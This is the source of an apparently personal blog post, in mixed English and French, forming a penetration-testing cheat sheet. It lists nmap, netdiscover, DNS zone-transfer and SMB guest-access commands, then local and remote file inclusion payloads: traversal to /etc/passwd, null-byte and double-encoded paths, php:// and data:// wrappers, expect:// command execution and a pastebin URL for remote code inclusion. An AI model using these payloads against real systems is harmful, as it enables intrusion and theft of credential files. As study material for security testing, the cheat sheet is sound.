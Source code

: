 ```yaml
---
layout: post
title: "Cheatseet"
author: "fhbapt"
permalink: /cheatseet/
---
```


## Table of Contents


### [Network](#network)  
 * [Network discovery](#network-discovery)
    * [Netdiscover](#netdiscover) 
    * [Nmap](#nmap)
  * [Services enumerations](#services)
    * [53 - DNS](#dns)
    * [139/445 - SMB](#smb)

### [Web vulnerabilities](#web)
 * [File Inclusion](#file-inclusion)
   * [LFI (Local File Inclusion)](#lfi)
   * [RFI (Remote File Inclusion)](#rfi)

## Common tools for network discovery <a name="network-discovery"></a>
In this chapter, the most common tools and commands use to dicover network architecture are presented. 

### Netdiscover commands <a name="netdiscover"></a>

> Netdiscover is an active/passive arp reconnaissance tool


```netdiscover -p``` Sniffing network trafic, Netdiscover sent anything 


```netdiscover -r 192.168.X.X/24``` Scan of subnetwork 192.168.X.X/24 by sending ARP frames


### Nmap commands <a name="nmap"></a>

```nmap -sL 192.168.X.X/24``` Permet de scanner les hôtes d'un sous réseau

```nmap -sP 192.168.X.X/24``` Lister les hôtes du réseau qui répondent à l'ICMP

```nmap -sU 192.168.X.X``` Scan d'une machine pour lister ses ports ouverts en UDP

```nmap -Pn -A 192.168.X.X(/24) --open``` Scan des machines ou réseau avec la liste des ports ouverts

```nmap -Pn --script=smb-enum-shares -p 445 192.168.X.X```

## Services enumerations <a name="services"></a>

### 53 - DNS <a name="dns"></a>

> Un transfert de zone complet (AXFR) consiste pour un serveur DNS esclave à demander une copie de zone de à un serveur maitre qui le permet. Cette fonctionnalité est reprise par l'attaquant pour découvrir des sous domaines.

Commands DIG :

```dig axfr @dns-server nom-de-domaine``` 

### 139/445 - SMB <a name="smb"></a>

SMB Commands :

```smbclient -U guest //192.168.X.X/share``` Télécharge les fichiers sur un serveur SMB

```smbget -U guest -R smb://192.168.X.X/share ``` Télécharge les fichiers sur un serveur SMB

## File Inclusion <a name="file-inclusion"></a>

### LFI (Local File Inclusion) <a name="lfi"></a>

Vulnérabilité permettant l'inclusion de fichier local.

Exemple de LFI :

```php
<?php @include("./page/".$_GET['page']) ?>
```

**Basic LFI**

```https://fhbapt.github.io/?page=index.php``` Récupération du fichier index.php

```https://fhbapt.github.io/?page=../config.php``` Récupération du fichier config.php

```https://fhbapt.github.io/?page=./../../../etc/password``` Recupération du fichier password

Les fichiers intéressants :
 * /etc/passwd
 * /etc/shadow
 * /etc/hosts
 * /etc/group
 * /proc/cmdline
 * Fichiers de logs
 * Fichiers de backups

**Null Byte, Double encoding**

```https://fhbapt.github.io/?page=etc/password%00``` Null Byte : %00

**Double Encoding**

```
https://fhbapt.github.io/?page=%252e%252e%252fetc%252fpasswd
https://fhbapt.github.io/?page=%252e%252e%252fetc%252fpasswd%00
```

**Wrapper php://filter**

```
https://fhbapt.github.io/?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

**Wrapper data://**

```
https://fhbapt.github.io/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
La payload est <?php phpinfo(); ?>
```

**Wrapper expect://**

`https://fhbapt.github.io/?page=expect://ls`

### RFI (Remote File Inclusion) <a name="rfi"></a>

Vulnérabilité permettant l'inclusion de fichier distant.

Exemple de RFI :

```php
<?php @include($_GET['page']) ?>
```

Utilisation de pastbin pour émuler le serveur et inclure le code du pastbin:

```https://fhbapt.github.io/?page=https://pastebin.com/raw/G68SZPQG``` 
